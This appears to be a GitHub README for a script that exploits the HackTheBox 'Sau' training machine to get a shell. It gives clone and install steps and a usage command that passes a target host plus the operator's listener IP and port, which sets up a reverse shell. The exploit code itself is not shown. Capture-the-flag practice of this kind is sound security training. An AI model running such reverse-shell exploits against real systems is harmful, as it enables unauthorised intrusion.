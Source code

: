 # SAU Machine Hackthebox - Remote Code Execution (RCE)

Simple sau machine RCE to gain a shell.

---

### HOW TO USE IT

Download the `repository` :

```bash
git clone https://github.com/mikelgoti/SAU-HTB-RCE.git
```

Or just download the `raw sau_rce.py script` .

Travel to the directory where you download the `script` and execute it with python:

```bash
python sau_rce.py -rhost <sau_machine_ip> -lhost <your_ip> -lport <port_for_listener>
```

## EXAMPLES

![example1](images/example1.png)



---

## Not working ?

If the script is not running properly, it could be because you haven't installed one of these modules for Python:

```requierements.txt
requests==2.28.1
pwn==1.0
```

You can install them runnig:

```bash
pip install -r requirements.txt
```
